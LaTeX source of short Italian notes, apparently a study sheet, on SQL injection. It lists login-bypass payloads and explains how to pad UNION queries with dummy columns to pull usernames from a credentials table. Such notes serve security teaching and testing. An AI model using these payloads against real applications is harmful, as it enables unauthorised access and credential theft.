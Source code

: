 \documentclass[oneside,a4paper,11pt]{book}
\theoremstyle{italicstyle}
\theoremstyle{normStyle}
\begin{document}
\section{Payload per il bypass}
\textbf{Importante} il trattino finale server ad indicare la presenza di uno spazio bianco dopo l'inserimento di un commento.
\begin{itemize}
    \item \begin{verbatim} ' OR 1 -- - \end{verbatim}
    \item \begin{verbatim} ' OR 1 = 1 -- - \end{verbatim}
    \item \begin{verbatim} ' OR '1' = '1'\end{verbatim}
    \item \begin{verbatim} '=0-- -\end{verbatim}
    \item \begin{verbatim} utente'-- - \end{verbatim} 
\end{itemize}
Nota: utente deve essere l'username di un utente del sistema. Se il form che vogliamo bypassare ci mostra errori di sintassi nella query SQL dobbiamo aggiustare il nostro codice in modo da risolvere questi errori.


\section{Union injection}
L'operatore UNION può lavorare solo con SELECT che ritornano lo stesso numero di colonne. Nel caso in cui la query eseguita dal sistema ritorni più colonne di quelle della quey che vogliamo eseguire noi in UNION dobbiamo inserire dei dati fantocci.

Esempio: Supponiamo che la query eseguita dal sistema sia fatta così:
\begin{verbatim}
    SELECT name, price FROM products WHERE product_id = '1';
\end{verbatim}
se noi vogliamo eseguire in UNION la seguente query:
\begin{verbatim}
    SELECT username from password;
\end{verbatim}
il sistema darà un errore, poichè il numero delle colonne non è uguale. Per risolvere il problema dobbiamo inserire dei dati fantoccio come di seguito:
\begin{verbatim}
    SELECT name, price FROM products WHERE product_id = '1' 
    UNION
    SELECT username,2 from password;
\end{verbatim}
ovviamente dobbiamo inserire tanti dati fittizi quante sono le colonne ritornate dalla SELECT fatta dal sistema.
\end{document}
